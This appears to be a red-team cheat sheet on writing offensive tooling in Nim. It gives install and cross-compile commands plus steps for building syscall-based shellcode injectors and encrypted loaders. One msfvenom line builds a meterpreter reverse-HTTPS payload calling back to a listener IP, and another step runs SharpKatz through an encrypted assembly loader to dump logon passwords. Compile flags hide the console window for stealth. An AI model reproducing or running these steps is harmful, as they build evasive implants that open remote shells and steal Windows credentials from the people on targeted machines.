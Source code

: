 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

Add the needed relocation section to the resulting executable (from Windows):

```
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

How-to:

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Modify [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.


#### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.16.18 LPORT=443 -e x64/xor -b '\x00' -f csharp
$ nim c encrypt_shellcode.nim
$ ./encrypt_shellcode 'Passw0rd!' b64.txt
$ cat b64.txt | xclip -i -sel c
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_shellcode_loader_syscalls.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
```



### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```
